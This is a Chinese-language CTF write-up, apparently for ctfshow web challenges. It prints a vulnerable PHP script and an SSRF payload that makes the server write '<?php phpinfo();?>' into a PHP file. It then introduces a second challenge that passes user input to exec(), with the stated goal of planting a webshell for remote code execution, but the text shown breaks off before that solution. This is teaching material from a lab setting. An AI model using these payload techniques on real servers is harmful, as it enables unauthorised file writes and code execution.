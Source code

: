 考点：SSRF中一个巧妙的利用方式

```php
<?php 
error_reporting(0);
if(isset($_GET) && !empty($_GET)){
    $url = $_GET['file'];
    $path = "upload/".$_GET['path'];
    
}else{
    show_source(__FILE__);
    exit();
}

if(strpos($path,'..') > -1){
    die('This is a waf!');
}


if(strpos($url,'http://127.0.0.1/') === 0){
    file_put_contents($path, file_get_contents($url));
    echo "console.log($path update successed!)";
}else{
    echo "Hello.CTFshow";
}
```

代码审计，path中不能有`..`,然后`url`必须是`http://127.0.0.1/`开头

构造payload:

```php
path=1.php&file=http://127.0.0.1/?file=http://127.0.0.1/%26path=<?php phpinfo();?>
```

第一个path就是需要写入的文件名，然后第一个file后面的内容：

```php
http://127.0.0.1/?file=http://127.0.0.1/%26path=<?php phpinfo();?>
```

`file_get_contents`是读取文件内容(上面file的内容)

`http://127.0.0.1/`代表了题目环境本地的index.php

所以file_get_contents读取了index.php得到的内容，然后第二个file`file=http://127.0.0.1/`进入if条件语句

其中有个`echo语句`输出了$path的内容(最终file_get_contents读取到的内容),并写入了1.php

![image-20220701163747099](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701163747099.png)



##  web690

考点:依次执行命令，利用本地服务器向远程服务器上写入webshell，从而实现RCE

```php
<?php 
highlight_file(__FILE__);
error_reporting(0);
$args = $_GET['args'];
for ( $i=0; $i<count($args); $i++ ){
    if ( !preg_match('/^\w+$/', $args[$i]) )
        exit("sorry");
}

exec('./ ' . implode(" ", $args));
```
